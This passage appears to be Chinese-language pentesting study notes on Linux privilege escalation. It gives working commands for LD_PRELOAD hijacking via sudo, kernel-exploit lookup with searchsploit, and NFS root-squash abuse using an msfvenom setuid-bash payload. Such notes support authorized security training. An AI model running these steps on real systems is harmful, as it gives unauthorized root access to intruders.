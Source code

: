 ```
```
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
- 替換原本的.so檔案
```
sudo LD_PRELOAD=/home/user/shell.so apache2
```
## Kernel Vulnerabilities
>[!重點]
>因為要找人家寫好的exploit，所以要很確定版本資訊
* system訊息
```
cat /etc/issue
```
- kernel版本
```
uname -r
```
- 核心架構
```
arch
```
- searchsploit
```
linux kernel Ubuntu 16 Local Privilege Escalation
```
- 利用grep增加searchsploit的結果精準度
```
grep -v " < 4.4.0" | grep -v "4.8"
```
```
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation" | grep "4." | grep -v " < 4.4.0" | grep -v "4.8"
```
## NFS Root Squashing
```
cat /etc/exports
```
>可以發現有/tmp目錄，可能可以利用。
### Kali Linux操作
>[!解釋]
>這個部份是在Kali 上面操作

- 掛載nfs
```
mkdir /tmp/nfs 
mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs
```
- 產生payload
```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```
```
chmod +xs /tmp/nfs/shell.elf
```
### 提權
```
/tmp/shell.elf
```
## PATH Injection
>[!重點]
>利用path執行順序的方式提權
```
```